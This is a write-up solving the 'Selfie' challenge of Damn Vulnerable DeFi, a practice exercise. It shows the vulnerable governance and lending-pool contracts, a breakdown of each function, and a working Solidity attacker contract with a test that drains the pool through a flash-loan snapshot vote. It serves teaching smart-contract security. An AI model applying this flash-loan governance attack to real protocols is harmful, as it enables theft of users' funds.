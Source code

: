 #+AUTHOR: Francesco Cannarozzo
* Selfie
  ../selfie
** Statement
   A lending pool is supported by a governance system. Starting with an epty balance, we are tasked with
   taking all 1.5 million tokens in the pool.
** Files
*** SimpleGovernance.sol
**** Code
     #+BEGIN_SRC solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../DamnValuableTokenSnapshot.sol";
import "@openzeppelin/contracts/utils/Address.sol";

/**
 * @title SimpleGovernance
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract SimpleGovernance {

    using Address for address;
    
    struct GovernanceAction {
        address receiver;
        bytes data;
        uint256 weiAmount;
        uint256 proposedAt;
        uint256 executedAt;
    }
    
    DamnValuableTokenSnapshot public governanceToken;

    mapping(uint256 => GovernanceAction) public actions;
    uint256 private actionCounter;
    uint256 private ACTION_DELAY_IN_SECONDS = 2 days;

    event ActionQueued(uint256 actionId, address indexed caller);
    event ActionExecuted(uint256 actionId, address indexed caller);

    constructor(address governanceTokenAddress) {
        require(governanceTokenAddress != address(0), "Governance token cannot be zero address");
        governanceToken = DamnValuableTokenSnapshot(governanceTokenAddress);
        actionCounter = 1;
    }
    
    function queueAction(address receiver, bytes calldata data, uint256 weiAmount) external returns (uint256) {
        require(_hasEnoughVotes(msg.sender), "Not enough votes to propose an action");
        require(receiver != address(this), "Cannot queue actions that affect Governance");

        uint256 actionId = actionCounter;

        GovernanceAction storage actionToQueue = actions[actionId];
        actionToQueue.receiver = receiver;
        actionToQueue.weiAmount = weiAmount;
        actionToQueue.data = data;
        actionToQueue.proposedAt = block.timestamp;

        actionCounter++;

        emit ActionQueued(actionId, msg.sender);
        return actionId;
    }

    function executeAction(uint256 actionId) external payable {
        require(_canBeExecuted(actionId), "Cannot execute this action");
        
        GovernanceAction storage actionToExecute = actions[actionId];
        actionToExecute.executedAt = block.timestamp;

        actionToExecute.receiver.functionCallWithValue(
            actionToExecute.data,
            actionToExecute.weiAmount
        );

        emit ActionExecuted(actionId, msg.sender);
    }

    function getActionDelay() public view returns (uint256) {
        return ACTION_DELAY_IN_SECONDS;
    }

    /**
     * @dev an action can only be executed if:
     * 1) it's never been executed before and
     * 2) enough time has passed since it was first proposed
     */
    function _canBeExecuted(uint256 actionId) private view returns (bool) {
        GovernanceAction memory actionToExecute = actions[actionId];
        return (
            actionToExecute.executedAt == 0 &&
            (block.timestamp - actionToExecute.proposedAt >= ACTION_DELAY_IN_SECONDS)
        );
    }
    
    function _hasEnoughVotes(address account) private view returns (bool) {
        uint256 balance = governanceToken.getBalanceAtLastSnapshot(account);
        uint256 halfTotalSupply = governanceToken.getTotalSupplyAtLastSnapshot() / 2;
        return balance > halfTotalSupply;
    }
}

     #+END_SRC

**** BreakDown
***** State
      the contract maintains a *DamnValuableTokenSnapshot* reference as *governanceToken*,
      set via the constructor via its address, which is required to be different from the zero address.
      a struct *GovernanceAction*, used for queuing governance actions, is declared, as well as
      a mapping of uints into governanceActions called *actions*. Lastly, we count actions through
      *actionCounter*
***** queueAction 
      the function takes three inputs: a *receiver* address, some bytes of *data*, and an uint *weiAmount*.
      First of all, the function requires *msg.sender* to have enough votes, through the private *_hasEnoughVotes()*.
      Then, receiver is required to be different than the governance contract.
      Once these requirements are met, *actionId* is set to be equal to *actionCounter*,
      then a new *GovernanceAction* is set up, filling its fields in with function input,
      and stored at *actions[actionId]*.
      Finally, *actionCounter* is incremented, and an *ActionQueued* event is emitted.
***** executeAction
      taking as argument the uint *actionId*, checks through the private *_canBeExecuted()* function
      if the action can indeed be executed. If the requirement is met, *functionCallWithValue()* is used
      to call the function specified in the action's data, onto *receiver*.
      Finally, an *ActionExecuted* event is emitted.
***** _canBeExecuted
      taking in an uint *actionId*, *action[actionId]* is first loaded into memory;
      the function then returns true only if the action has not been executed, and if the delay
      between current block timestamp and *actionToExecute.proposedAt* is longer than the stated minimum delay.
***** _hasEnoughVotes
      taking in an address *account*, the account's *governanceToken* balance at the latest snapshot
      is compared to the total supply at the same moment: if that balance amounts to more than half
      of total supply, true is returned.
*** SelfiePool.sol
**** Code
     #+BEGIN_SRC solidity
     // SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import "@openzeppelin/contracts/token/ERC20/extensions/ERC20Snapshot.sol";
import "@openzeppelin/contracts/utils/Address.sol";
import "./SimpleGovernance.sol";

/**
 * @title SelfiePool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract SelfiePool is ReentrancyGuard {

    using Address for address;

    ERC20Snapshot public token;
    SimpleGovernance public governance;

    event FundsDrained(address indexed receiver, uint256 amount);

    modifier onlyGovernance() {
        require(msg.sender == address(governance), "Only governance can execute this action");
        _;
    }

    constructor(address tokenAddress, address governanceAddress) {
        token = ERC20Snapshot(tokenAddress);
        governance = SimpleGovernance(governanceAddress);
    }

    function flashLoan(uint256 borrowAmount) external nonReentrant {
        uint256 balanceBefore = token.balanceOf(address(this));
        require(balanceBefore >= borrowAmount, "Not enough tokens in pool");
        
        token.transfer(msg.sender, borrowAmount);        
        
        require(msg.sender.isContract(), "Sender must be a deployed contract");
        msg.sender.functionCall(
            abi.encodeWithSignature(
                "receiveTokens(address,uint256)",
                address(token),
                borrowAmount
            )
        );
        
        uint256 balanceAfter = token.balanceOf(address(this));

        require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
    }

    function drainAllFunds(address receiver) external onlyGovernance {
        uint256 amount = token.balanceOf(address(this));
        token.transfer(receiver, amount);
        
        emit FundsDrained(receiver, amount);
    }
}
     #+END_SRC
      
**** Breakdown
***** State
      the contract merely maintains a reference to a *ERC20Snapshot* token, and to a *SimpleGovernance* contract,
      assigned via the constructor.
***** flashLoan
      regular flashLoan behavior applies here, with the peculiarity that the address requesting the loan
      _MUST_ be a contract address.
***** drainAllFunds
      that's what we're aiming for. Literally drains all funds and transfers them to the receiver.
      However, only governance can call this method.
** Exploit
   Governance's reliance on snapshot for the extablishment of a vote majority is what we're going to be targeting:

   attacker will thus FlashLoan enough tokens to have enough votes, immediatly take a snapshot, queue the desired action with
   the malicious payload, and finally return the flashLoan. Finally, after 2 days evm time, the attack can be completed.
*** Code
    #+BEGIN_SRC solidity
    pragma solidity ^0.8.0;

import '../../selfie/SelfiePool.sol';
import '../../selfie/SimpleGovernance.sol';
import "../../DamnValuableTokenSnapshot.sol";
import "@openzeppelin/contracts/utils/Address.sol";


contract SelfieAttacker {

    using Address for address;

    address attacker;
    SelfiePool pool;
    SimpleGovernance governance;
    DamnValuableTokenSnapshot token;
    uint256 actionId;
    

    constructor(address _poolAddress, address _governanceAddress, address _tokenAddress, address _attackerAddress) {
        pool = SelfiePool(_poolAddress);
        governance = SimpleGovernance(_governanceAddress);
        token = DamnValuableTokenSnapshot(_tokenAddress);
        attacker = _attackerAddress;
        
    }

    function setUp(uint256 _amount) external {
        pool.flashLoan(_amount);

    }

function attack() external{
    governance.executeAction(actionId);
}

    function receiveTokens(address _address, uint256  _amount) external{
        token = DamnValuableTokenSnapshot(_address);
        token.snapshot();
        bytes memory requestData = abi.encodeWithSignature("drainAllFunds(address)",
        attacker);
        actionId = governance.queueAction(address(pool), requestData, 0);
                token.transfer(address(pool), _amount);

    }


}

    #+END_SRC

Attacker code will be called as follows:

#+BEGIN_SRC javascript
    it('Exploit', async function () {
        
        const attackerFactory = await ethers.getContractFactory('SelfieAttacker', deployer);

        const selfieAttacker = await attackerFactory.deploy(this.pool.address, this.governance.address, this.token.address, attacker.address);
        await selfieAttacker.setUp(TOKENS_IN_POOL);
        await ethers.provider.send("evm_increaseTime", [60*60*24*2]);
        await selfieAttacker.attack()
    });
#+END_SRC

   
